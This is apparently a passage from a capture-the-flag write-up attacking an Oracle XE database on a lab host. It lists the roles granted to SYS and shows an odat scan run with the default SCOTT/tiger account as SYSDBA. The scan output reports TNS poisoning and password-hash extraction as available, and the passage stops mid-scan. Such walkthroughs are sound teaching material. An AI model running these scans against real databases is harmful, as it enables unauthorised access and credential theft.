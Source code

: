     USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS                            DELETE_CATALOG_ROLE            YES YES NO
    SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
    SYS                            EXP_FULL_DATABASE              YES YES NO
    SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
    SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
    SYS                            HS_ADMIN_ROLE                  YES YES NO
    SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
    SYS                            IMP_FULL_DATABASE              YES YES NO
    SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
    SYS                            OEM_ADVISOR                    YES YES NO
    SYS                            OEM_MONITOR                    YES YES NO
    
    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS                            PLUSTRACE                      YES YES NO
    SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
    SYS                            RESOURCE                       YES YES NO
    SYS                            SCHEDULER_ADMIN                YES YES NO
    SYS                            SELECT_CATALOG_ROLE            YES YES NO
    SYS                            XDBADMIN                       YES YES NO
    SYS                            XDB_SET_INVOKER                YES YES NO
    SYS                            XDB_WEBSERVICES                YES YES NO
    SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
    SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO
    
    32 rows selected.
    

Similarly with `odat`, running the `all` scan shows nothing that can be done,
but passing in the `--sysdba` flag changes all of that:

    
    
    root@kali# odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba
    
    [1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
    [+] The target is vulnerable to a remote TNS poisoning
    
    [2] (10.10.10.82:1521): Testing all modules on the XE SID with the SCOTT/tiger account
    [2.1] UTL_HTTP library ?
    [+] OK
    [2.2] HTTPURITYPE library ?
    [+] OK
    [2.3] UTL_FILE library ?
    [+] OK
    [2.4] JAVA library ?
    [-] KO
    [2.5] DBMSADVISOR library ?
    [+] OK
    [2.6] DBMSSCHEDULER library ?
    [-] KO
    [2.7] CTXSYS library ?
    [+] OK
    [2.8] Hashed Oracle passwords ?
    [+] OK
    [2.9] Hashed Oracle passwords from history?
    [+] OK
    [2.10] DBMS_XSLPROCESSOR library ?
    [+] OK
    [2.11] External table to read files ?
    [-] KO
    [2.12] External table to execute system commands ?
    [-] KO
    [2.13] Oradbg ?
    [-] KO
    [2.14] DBMS_LOB to read files ?